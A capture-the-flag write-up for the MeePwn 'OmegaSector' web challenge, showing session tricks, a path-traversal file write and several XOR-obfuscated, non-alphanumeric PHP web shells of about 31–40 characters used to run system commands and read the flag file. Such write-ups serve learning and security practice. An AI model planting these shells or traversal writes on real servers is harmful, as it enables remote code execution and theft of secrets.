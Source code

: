 ### OmegaSector 

very briefly describing what's going on...when u enable debugging on page (`?is_debug=1`), you see index.php receives two weird URI's and we can go through different arenas in application. the trick at first part is to pass a URI in your requests without having `/` which is quite easy using Burpsuite you can pass it: 

```
GET http://human.ludibrium.meepwn.team/?human=Yes HTTP/1.1
Host: 138.68.228.12
``` 

then you'll receive PHPSESSID from server. By replacing that and making request you'll receive `302 Found` and if you follow redirection, you'll be redirected to omega_sector.php 

we found that humans can only write alphanum characters. in order to write a shellcode we need to have non-alphanum characters as well. so let's get PHPSESSID for aliens arena same way as we did for human: 

```
GET http://alien.somewhere.meepwn.team/?alien=%40!%23$%40!%40%40 HTTP/1.1
Host: 138.68.228.12
``` 

aliens can write any non-alphanum character. also we noticed that there's not a any sanity check performed on `type` variable for POST at both alien_sector.php and omega_sector.php pages. 

Using `util.py/get_allowed()` I found the allowed characters for human and aliens which are as the following: 

```
human = "132547698ACBEDGFIHKJMLONQPSRUTWVYXZ_acbedgfihkjmlonqpsrutwvyxz" 

alien = "\x00\x83\x04\x87\x08\x8b\x0c\x8f\x10\x93\x14\x97\x18\x9b\x1c\x9f \xa3$\xa7(\xab,\xaf\xb3\xb7\xbb<\xbf@\xc3\xc7\xcb\xcf\xd3\xd7\xdb\\\xdf`\xe3\xe7\xeb\xef\xf3\xf7\xfb|\xff\x80\x03\x84\x07\x88\x0b\x8c\x0f\x90\x13\x94\x17\x98\x1b\x9c\x1f\xa0#\xa4\'\xa8+\xac/\xb0\xb4\xb8;\xbc?\xc0\xc4\xc8\xcc\xd0\xd4\xd8[\xdc_\xe0\xe4\xe8\xec\xf0\xf4\xf8{\xfc\x7f\x81\x02\x85\x06\x89\n\x8d\x0e\x91\x12\x95\x16\x99\x1a\x9d\x1e\xa1"\xa5&\xa9*\xad.\xb1\xb5\xb9:\xbd>\xc1\xc5\xc9\xcd\xd1\xd5\xd9\xdd^\xe1\xe5\xe9\xed\xf1\xf5\xf9\xfd~\x01\x82\x05\x86\t\x8a\r\x8e\x11\x92\x15\x96\x19\x9a\x1d\x9e!\xa2%\xa6)\xaa-\xae\xb2\xb6\xba=\xbe\xc2\xc6\xca\xce\xd2\xd6\xda]\xde\xe2\xe6\xea\xee\xf2\xf6\xfa}\xfe"
``` 

Now it's time to construct a PHP shell script. At first I started with this one: 

```php
<?$_='{{{{'^'$<>/';${$_}[_](${$_}[__]);?>
``` 

but there is a limitation on message field which it should not pass 40 characters. The latter one was 42 characters though. briefly, I'm constructing `_GET` string using XOR operation on printable non-alphanum characters, then I am converting string to Array and getting access to `_` key of that Array, which is similar to write `$_GET['_']`. PHP automatically converts key to string so we can avoid quotes surrounding the key. Furthermore, the parenthesis around the next variable treated as an argument passed to a function. In PHP, it's quite common to have a function as a string. It's the same way callbacks are working in the PHP environment. 

After searching a little bit I found that after PHP 5.4, they enabled short echo tag by default, regardless of the short_open_tag value in php.ini. so I changed the payload a little bit to decrease the length: 

```php
<?=$_='{{{{'^'$<>/';${$_}[_](${$_}[__]);
```

and now it's 40 characters long which passed the limitation. After sending this payload we can get shell: 

```
POST /alien_sector.php HTTP/1.1
Host: 138.68.228.12
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f00ld8g8ckm9cqqrtddaqdgjs0
message=<?=$_="{{{{"^"$<>/";${$_}[_](${$_}[__]);&type=/../../human_message/info.php
``` 

then you can call it from here:

```
GET http://138.68.228.12/human_message/info.php?_=system&__=cat%20../secret.php HTTP/1.1
Host: 138.68.228.12
```

flag: 

```php
<?php

$salt='G0g0_M3s0sr4ng3rS_1337';

$omega_sector_flag="MeePwnCTF{__133-221-333-123-111___}";

//Don't attack further after captured our flag, or we will find you and we will kill you... oops, i mean ban you ^_^.

function mapl_die()

{
    $wrong = <<<EOF
    <body background="assets/wrong.jpg" class="cenback"></body>
    EOF;

    die($wrong);
}
?>
``` 

## shorter payloads:
here you can find shorter payloads for this challenge. (thanks to [@icchy](https://github.com/icchy) for brainstorming on shorter solutions)
> * using shell system command: 
```php
<?=$_=${"{{{{"^"$<>/"},`$_[_]`;
``` 

```
GET http://138.68.228.12/human_message/tiny.php?_=cat%20../secret.php HTTP/1.1
Host: 138.68.228.12
``` 
payload length: 31 

* which I guess could be the shortest alphanumeric general purpose shell code for PHP in the wild. 

> * not generic but customized for this challenge solution: 
```
<?=`/???/??? ../??????.??? > _`
``` 
payload length: 31 

`/???/???` is a shell trick which is almost always equal to `/bin/cat` :) 


cheerz 

@pwnslinger 
